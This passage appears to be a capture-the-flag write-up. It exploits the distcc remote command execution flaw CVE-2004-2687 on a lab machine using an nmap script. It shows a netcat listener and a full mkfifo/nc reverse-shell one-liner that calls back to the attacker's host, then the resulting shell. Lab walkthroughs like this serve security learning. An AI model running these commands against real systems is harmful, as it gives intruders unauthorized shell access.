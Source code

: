 ```
[*] 10.129.106.70:3632 - stderr: bash: /dev/tcp/192.168.0.87/4444: No such file or directory
[*] 10.129.106.70:3632 - stderr: bash: 188: Bad file descriptor
[*] Exploit completed, but no session was created.
```
I tried different payloads but no one seems to work.

According to [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc), nmap has a script to exploit the vulnerability.
```
$wget https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse
--2023-09-18 18:57:43--  https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse
Resolving svn.nmap.org (svn.nmap.org)... 2600:3c01:e000:3e6::6d4e:7061, 45.33.49.119
Connecting to svn.nmap.org (svn.nmap.org)|2600:3c01:e000:3e6::6d4e:7061|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3519 (3,4K) [text/plain]
Saving to: ‘distcc-cve2004-2687.nse’

distcc-cve2004-2687.nse                         100%[=====================================================================================================>]   3,44K  --.-KB/s    in 0s      

2023-09-18 18:57:43 (118 MB/s) - ‘distcc-cve2004-2687.nse’ saved [3519/3519]

$nmap -Pn -p 3632 10.129.106.70 --script ./distcc-cve2004-2687.nse  --script-args="cmd='whoami'"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-18 19:01 CEST
Nmap scan report for 10.129.106.70
Host is up (0.020s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     daemon
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|_      https://distcc.github.io/security.html

Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
```
Perfect! We have a remote code execution with the user daemon. We can now set a reverse shell to get access to the machine:
```
# In one console, listen on port 4444
$nc -lnvp 4444
# In another console, run nmap command
$nmap -Pn -p 3632 10.129.106.70 --script ./distcc-cve2004-2687.nse  --script-args="cmd='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.86 4444 >/tmp/f'"
```
It works! I've got a shell:
```
sh-3.2$ ls /home
ftp
makis
```